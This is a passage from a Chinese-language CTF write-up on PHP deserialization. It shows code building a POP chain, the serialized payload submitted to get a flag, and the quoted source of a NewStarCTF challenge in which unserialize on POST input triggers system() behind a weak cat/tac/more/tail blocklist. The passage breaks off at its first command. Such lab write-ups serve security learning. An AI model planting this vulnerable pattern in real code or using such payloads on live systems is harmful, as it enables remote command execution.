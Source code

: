 ```php
//}
$a=new Start;
$a->name=new Sec;
$a->name->obj=new Easy;
$a->name->var=new eeee;
$a->name->var->obj=new Start;
$a->name->var->obj->func=new Sec;
echo serialize($a);
```

运行获得pop链

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732866119628-14af23ca-8132-4462-8129-7e8c7d446388.png)

上传参数payload

```php
pop=O:5:"Start":2:{s:4:"name";O:3:"Sec":2:{s:3:"obj";O:4:"Easy":1:{s:3:"cla";N;}s:3:"var";O:4:"eeee":1:{s:3:"obj";O:5:"Start":2:{s:4:"name";N;s:4:"func";O:3:"Sec":2:{s:3:"obj";N;s:3:"var";N;}}}}s:4:"func";N;}
```

最后获得flag

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732866213819-9286829d-685a-4a27-91a9-9a56c7edf635.png)

## BUUCTF  [NewStarCTF 2023 公开赛道]Unserialize？
代码如下

```php
 <?php
highlight_file(__FILE__);
// Maybe you need learn some knowledge about deserialize?
class evil {
    private $cmd;

    public function __destruct()
    {
        if(!preg_match("/cat|tac|more|tail|base/i", $this->cmd)){
            @system($this->cmd);
        }
    }
}

@unserialize($_POST['unser']);
?> 
```

代码审计发现evil类中的__destruct方法内存在system函数漏洞

于是把代码复制到本地 将需要执行的命令赋值给cmd

先输入命令 <font style="color:#601BDE;">ls /</font>
